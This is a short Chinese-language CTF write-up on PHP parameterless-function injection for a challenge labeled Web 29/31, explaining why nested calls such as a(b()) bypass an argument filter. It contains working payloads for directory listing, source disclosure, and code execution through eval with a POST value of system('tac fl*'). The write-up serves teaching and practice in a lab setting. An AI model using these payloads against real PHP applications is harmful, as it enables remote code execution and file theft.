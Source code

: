 注意看：被过滤的是中文状态下的括号，而非英文

题目考察php无参数函数构造，即可以为`a(b());a();`等但不能为`a('b');`等

**（Web 29）（Web 31）：**

`?c=print_r(scandir(current(localeconv())));`

`?c=show_source(next(array_reverse(scandir(pos(localeconv())))));`



**或者：（不懂的话 就看看下边的参考文章）**

`?c=eval(array_pop(next(get_defined_vars())));`

需要POST传入参数为1=system('tac fl*');

get_defined_vars() 返回一个包含所有已定义变量的多维数组。这些变量包括环境变量、服务器变量和用户定义的变量，例如GET、POST、FILE等等。

next()将内部指针指向数组中的下一个元素，并输出。

array_pop() 函数删除数组中的最后一个元素并返回其值。



### 题目的重点：**php无参数函数利用**

**参考：**[PHP无参数函数利用](https://blog.csdn.net/weixin_45785288/article/details/109259595)

无参数的意思可以是a()、a(b())或a(b(c()))，但不能是a(‘b’)或a(‘b’,‘c’)，**不能带参数**







